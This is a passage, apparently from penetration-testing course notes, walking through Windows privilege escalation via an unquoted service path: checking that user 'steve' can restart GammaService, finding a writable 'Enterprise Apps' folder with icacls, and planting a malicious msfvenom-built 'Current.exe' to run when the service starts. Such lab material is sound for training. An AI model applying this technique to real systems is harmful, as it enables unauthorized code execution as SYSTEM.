 ```shell
PS C:\Users\steve> Start-Service GammaService
WARNING: Waiting for service 'GammaService (GammaService)' to start...

PS C:\Users\steve> Stop-Service GammaService
```

The output from Listing 69 indicates that _steve_ has permissions to start and stop GammaService. Since we can restart the service ourselves, we don't need to issue a reboot to restart the service. Next, let's list the paths Windows uses to attempt locating the executable file of the service.

```text
C:\Program.exe
C:\Program Files\Enterprise.exe
C:\Program Files\Enterprise Apps\Current.exe
C:\Program Files\Enterprise Apps\Current Version\GammaServ.exe
```

Let's check our access rights in these paths with **icacls**. We see that in `C:\` and `C:\Program Files` our user doesn't have write permissions

```console
PS C:\Users\steve> icacls "C:\Program Files\Enterprise Apps"
C:\Program Files\Enterprise Apps NT SERVICE\TrustedInstaller:(CI)(F)
                                 NT AUTHORITY\SYSTEM:(OI)(CI)(F)
                                 BUILTIN\Administrators:(OI)(CI)(F)
                                 BUILTIN\Users:(OI)(CI)(RX,W)
                                 CREATOR OWNER:(OI)(CI)(IO)(F)
                                 APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES:(OI)(CI)(RX)
                                 APPLICATION PACKAGE AUTHORITY\ALL RESTRICTED APPLICATION PACKAGES:(OI)(CI)(RX)
```

The output shows that BUILTIN\Users has Write (w) permissions on the path `C:\Program Files\Enterprise Apps`. Our goal is now to place a malicious file named `Current.exe` in `C:\Program Files\Enterprise Apps\` (Use a .exe binary from msfvenom). After that we start the service and the malicious binary will be executed, even if it throws an error.

```shell
PS C:\Users\steve> Start-Service GammaService
Start-Service : Service 'GammaService (GammaService)' cannot be started due to the following error: Cannot start
service GammaService on computer '.'.
At line:1 char:1
+ Start-Service GammaService
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : OpenError: (System.ServiceProcess.ServiceController:ServiceController) [Start-Service],
   ServiceCommandException
    + FullyQualifiedErrorId : CouldNotStartService,Microsoft.PowerShell.Commands.StartServiceCommand
```

We can do the same with PowerUp.ps1
